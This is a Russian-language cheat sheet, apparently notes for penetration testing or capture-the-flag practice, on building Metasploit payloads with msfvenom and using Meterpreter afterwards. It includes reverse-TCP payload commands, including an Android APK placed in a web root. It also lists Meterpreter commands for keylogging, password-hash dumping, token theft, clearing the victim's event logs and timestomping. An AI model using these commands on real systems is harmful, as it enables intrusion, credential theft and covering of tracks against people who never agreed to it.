 # msfvenom
Чтобы узнать, какие полезные нагрузки мы можем собрать, используем следующую команду:
`msfvenom -l payloads`
Затем нам как и в эксплойте нужно указать следующее:
```jsx
LHOST — IP-адрес вашего компьютера (атакующего).
LPORT — порт вашего компьютера, который назначен серверу или программе.
P — сокращение от «payload», полезная нагрузка для выбранной платформы.
F — параметр, который задает тип файла, например, exe для Windows.
```
Пример №1 создания exploit-файла:
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.76 LPORT=4444 R> /var/www/html/trythis.apk
```
Пример №2 создания exploit-файла:
```
msfvenom -p {payload} LHOST=192.162.1.1 LPORT=4444 -f elf > resFile
```
где `elf` - тип исполняемого бинарного файла для Linux.  
также:
`-ax64` - указание 64 битной архитектуры для пэйлоада.
`-f dll` - исполняемый файл для windows
# Metasploit

`use exploit/multi/handler` - напоминает netcat, но нуждается в выставлении пэйлоада из файла msfvenom, например `set payload linux/x64/meterpriter_reverse_tcp`

`use post/multi/manage/shell_to_meterpreter` - модуль для пост-эксплуатации. Позволяет использовать на уязвимой машине `meterpreter`. То есть должно было быть установлено соединение, и и убрано в фон (`^Z`)

`sessions -i {num}` - сменить сессию.

`check` - когда выбран и заполнен exploit, иногда можно проверить уязвима ли система к нему.
`set AutoCheck false` - отключить AutoCheck для эксплойтов.

## Meterpriter
### Основные команды meterpriter 
```
? — меню помощи
background — переносит текущий сеанс в фоновый режим.
bgkill — убивает фоновый скрипт meterpreter.
bglist — отображает список всех запущенных фоновых скриптов.
bgrun — запускает скрипт как фоновый поток.
channel  — отображает активные каналы.
close — закрывает канал.
exit — завершает сеанс работы с meterpreter.
help — меню справки.
interact — взаимодействует с каналом.
irb — перейти в режим сценария Ruby.
migrate — перемещает активный процесс на указанный PID.
quit — завершает сеанс meterpreter.
read — читает данные из канала.
run — выполняет созданный после него скрипт meterpreter.
use — загружает расширение meterpreter.
write — записывает данные в канал.
```
### Команды файловой системы
```
cat — чтение и вывод содержимого файла.
cd — перейти в папку.
del — удалить файл.
download — скачать файл из системы на свою машину.
edit — редактировать файл с помощью vim.
getlwd — показать локальный каталог.
getwd — показать рабочий каталог.
lcd — сменить локальный каталог.
lpwd — отобразить путь локальной директории.
ls — список файлов в текущем каталоге.
mkdir — создать каталог.
pwd — отобразить путь от корневого каталога к текущему рабочему каталогу.
rm — удалить файл.
rmdir — удалить каталог у жертвы.
upload — загрузить файл из своей системы на целевую машину.
```
### Сетевые команды meterpriter
``` 
ipconfig — отображает сетевые интерфейсы с ключевой информацией, включая IP-адрес и т. д.
portfwd — перенаправляет порт целевой системы удаленной службе.
route — просмотр или изменение таблицы маршрутизации жертвы.
```
### Системные команды meterpriter
```
clearav — очищает журналы событий на компьютере жертвы.
execute — выполняет команду.
getpid — получает идентификатор текущего процесса (PID).
getprivs — получает максимально возможные привилегий.
getuid — получить пользователя, от имени которого запущен сервер.
kill — завершить процесс, обозначенный PID.
ps — список запущенных процессов.
reboot — перезагружает компьютер жертвы.
reg — взаимодействовать с реестром жертвы.
rev2self — вызывает RevertToSelf () на машине жертвы.
shell — открывает командную оболочку на машине жертвы.
shutdown — выключает компьютер жертвы.
steal_token — пытается украсть токен указанного (PID) процесса.
sysinfo — получает подробную информацию о компьютере жертвы, такую как ОС и название компьютера.
```
`ps | grep cmd` - узнать параметры процессы cmd
`migrate {PID}` - мигрировать подключение под процесс
### Команды пользовательского интерфейса
``` 
enumdesktops — список всех доступных рабочих столов.
getdesktop — получить текущий рабочий стол meterpreter.
idletime — проверяет, сколько времени система жертвы простаивала.
keyscan_dump — выгружает содержимое программного обеспечения кейлоггера.
keyscan_start — запускает программный кейлоггер, когда он связан с процессом, таким как Word или браузер.
keyscan_stop — останавливает программный кейлоггер.
screenshot — делает снимок экрана рабочего стола meterpreter.
set_desktop — изменяет рабочий стол meterpreter.
uictl — позволяет управлять некоторыми компонентами пользовательского интерфейса.
```
### Команды повышения привилегий
``` 
getsystem — использует 15 встроенных методов для получения привилегий системного администратора.
getprivs — получает максимально возможные привилегий.
```
### Команды дампа пароля
``` 
hashdump — захватывает хеши из файла пароля (SAM).
```
Обратите внимание, что hashdump часто отключает программное обеспечение AV, но теперь есть два более скрытых сценария: «запустить hashdump» и «запустить smart_hashdump».
### Команды Timestomp
`timestomp` — управляет изменением, доступом и созданием атрибутов файла.